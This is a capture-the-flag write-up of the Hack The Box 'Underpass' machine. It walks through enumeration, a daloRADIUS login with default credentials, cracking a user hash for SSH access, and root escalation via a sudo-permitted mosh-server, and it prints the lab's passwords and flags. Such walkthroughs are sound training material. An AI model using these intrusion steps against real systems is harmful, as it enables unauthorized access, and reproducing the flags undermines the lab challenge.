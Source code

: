```yaml
---
layout: post
title: "Hack The Box: Underpass"
date: 2025-05-23
categories: [HackTheBox, Writeup]
tags: [Linux, easy, daloradius, mosh, privilege-escalation]
permalink: /posts/Underpass/
toc: true
---
```


#  Hack The Box: Underpass 
## Table of Contents

- [Enumeration](#enumeration)
  - [Nmap Scan](#nmap-scan)
  - [Daloradius Web Application](#daloradius-web-application)
- [Exploitation](#exploitation)
  - [Initial Foothold](#initial-foothold)
  - [Privilege Escalation](#privilege-escalation)


Posted May 23, 2025
![Description](assets/images/UnderPass/image (1).png)

**UnderPass** is an **easy-difficulty machine** from Hack The Box that starts with an
exposed **Daloradius** instance, accessible using **default credentials**. Inside the
application, we discover a password **hash** which we successfully crack. The
recovered credentials allow SSH access to the target machine. Once on the box, we
find that we can launch a **mosh server** with root privileges, which we exploit to
escalate our privileges and ultimately gain **root access**.



##  Enumeration
### nmap scan
### We begin with an Nmap scan:

```bash
$ nmap -A -Pn 10.10.11.48

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 10:17 W. Central Africa Standard Time
Nmap scan report for 10.10.11.48
Host is up (0.47s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_ 256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.77 seconds
```

**Open Ports:**
- **22/tcp** – SSH 
- **80/tcp** – HTTP

 Trying to access the website, it looks like we have a default apache page

![Description](assets/images/UnderPass/image (2).png)
### Daloradius web application
### Using `dirsearch`, we discovered a hidden web directory at `/daloradius/`, which is commonly associated with the DaloRadius web interface:

```bash
$ dirsearch -u "http://underpass.htb/daloradius/" -t 50

|. _ _ _ _ _ | v0.4.3
(
||| ) (/(|| (| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist
size: 11460
Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius__24-1222_12-58-34.txt
Target: http://underpass.htb/
[12:58:34] Starting: daloradius/
[12:58:39] 200 - 221B - /daloradius/.gitignore
[12:58:47] 301 - 323B - /daloradius/app -> http://underpass.htb/daloradius/app/
[12:58:49] 200 - 24KB - /daloradius/ChangeLog
[12:58:51] 301 - 323B - /daloradius/doc -> http://underpass.htb/daloradius/doc/
[12:58:51] 200 - 2KB - /daloradius/docker-compose.yml
[12:58:51] 200 - 2KB - /daloradius/Dockerfile
[12:58:57] 301 - 327B - /daloradius/library ->
http://underpass.htb/daloradius/library/
[12:58:57] 200 - 18KB - /daloradius/LICENSE
[12:59:04] 200 - 10KB - /daloradius/README.md
[12:59:05] 301 - 325B - /daloradius/setup ->
http://underpass.htb/daloradius/setup/
Task Completed
```



##  Exploitation
### initial foothold
While researching daloradius online, I identified a commonly used login path at /daloradius/operators/login.php. Accessing this path revealed a login panel for the daloradius web interface.

![Description](assets/images/UnderPass/image (3).png)
### 1. **Accessing DaloRadius**
We navigate to `/daloradius/operators/login.php` and log in with default credentials:

- **Username:** administrator  
- **Password:** radius

![Description](assets/images/UnderPass/image (4).png)
### 2. **Retrieving User Hash**
Inside DaloRadius, we find a user `svcMosh` with the following hash:

```
412DD4759978ACFCC81DEAB01B382403
```
![Description](assets/images/UnderPass/image (3).png)

Using [crackstation.net](https://crackstation.net), we crack the hash:

- **Password:** underwaterfriends

### 3. **Gaining SSH Access**
We SSH into the box:

```bash
ssh svcMosh@underpass.htb
# Password: underwaterfriends
```

And retrieve the user flag:

```bash
cat ~/user.txt
# -> bbfc40fc1389516f00b23bcb62c85872
```



###  Privilege Escalation

Checking `sudo` privileges:

```bash
sudo -l
```

We find:

```bash
Matching Defaults entries for svcMosh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server

```

This means the user `svcMosh` can run the `mosh-server` command as root without needing to type a password.


1. On the victim machine:

```bash
$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 N7vPqLt4KrX9DfYmHsUw3A
mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein
mosh-devel@mit.edu
License GPLv3+: GNU GPL version 3 or later
http://gnu.org/licenses/gpl.html.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
[mosh-server detached, pid = 3100]
```

2. On the attacker machine:

```bash
$ MOSH_KEY=N7vPqLt4KrX9DfYmHsUw3A mosh-client <ip> 60001

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/pro
System information as of Tue Dec 24 03:25:41 PM UTC 2024
System load: 0.0 Processes: 227
Usage of /: 89.0% of 3.75GB Users logged in: 0
Memory usage: 10% IPv4 address for eth0: 10.129.243.71
Swap usage: 0%
=> / is using 89.0% of 3.75GB
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See
https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
#
```

You're now root:

```bash
id
# uid=0(root) gid=0(root)

cat /root/root.txt
# -> 95bfbcdd99b59de1bead0d706a1c6774
```



##  Summary

-  Enumerated daloradius on web server
-  Used default credentials
-  Cracked hash to gain SSH access
-  Escalated privileges via `mosh-server`

Pwned! 🎉

